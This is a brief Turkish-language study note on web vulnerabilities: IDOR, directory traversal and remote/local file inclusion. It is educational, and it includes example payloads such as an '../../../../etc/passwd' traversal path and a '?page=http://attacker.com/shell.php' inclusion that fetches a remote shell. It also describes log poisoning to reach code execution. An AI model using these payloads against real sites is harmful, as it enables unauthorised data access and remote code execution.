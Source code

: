 # IDOR (Insecure Direct Object Reference)

Uygulamanın kullanıcıdan aldığı girdilerin doğrulaması yapılmadan işlenmesiyle ortaya çıkan erişim denetimi zafiyetidir. Kullanıcı parametreleri değiştirerek diğer kullanıcıların verilerine erişim sağlayabilir ve işlem yapabilir. Örneğin `...msgid=1` yi `...msgid=33` yaparak başka birinin mesajını okuyabilir. Temel mantık bu isteklerin kontrolsüz olması, sunucu "bu kullanıcı bu kaynağa erişebilir mi?" kontrolü yapmıyor.

## Yaygın Yerler:
- API endpoint'leri (`/api/user/123`, `/order/456`)
- Dosya indirme linkleri (`/download?file=report_5.pdf`)
- Profil sayfaları (`/profile?userid=789`)
- Mesajlaşma sistemleri (`/message?id=1`)

## Tespit:
ID parametrelerini değiştir ve başka kullanıcının verisine erişip erişemediğini kontrol et. Burp Suite ile request'i yakala, ID'yi değiştir, yolla. Eğer yetkisiz erişim sağlanıyorsa IDOR var demektir.

# Directory Traversal
Yetkiniz olmayan bir dosyanın dizin atlayarak okunabilecek başka bir dosyanın yoluna gidilir. Buradaki `../../../../etc/passwd` örneğini verebiliriz. Bunun farklı farklı encoding'leri olabilir.

# RFI/LFI (Remote/Local File Inclusion)

Uygulamanın dahil ettiği (include) dosyaları manipüle ederek kendi kodunuzu çalıştırma zafiyetidir.

**RFI (Remote File Inclusion):** Uzaktaki bir sunucudan zararlı dosya çalıştırabilirsiniz. Örneğin `?page=http://attacker.com/shell.php` gibi. Uygulama bu remote dosyayı include edip çalıştırıyor.

**LFI (Local File Inclusion):** Sunucuda zaten var olan bir dosyayı include edip çalıştırırsınız. Directory traversal ile bulduğumuz bir dosya yolunu (log dosyaları, upload edilen dosyalar, txt dosyaları gibi) include parametresine veririz. Örneğin log dosyasına zararlı kod yazdırıp sonra o log'u include ettirerek RCE (Remote Code Execution) elde edebiliriz. Aynı mantıkta çalışır ama kaynak local.

RFI -> harici kaynak, LFI -> local kaynak. İkisi de dosya include mekanizmasını kötüye kullanır.
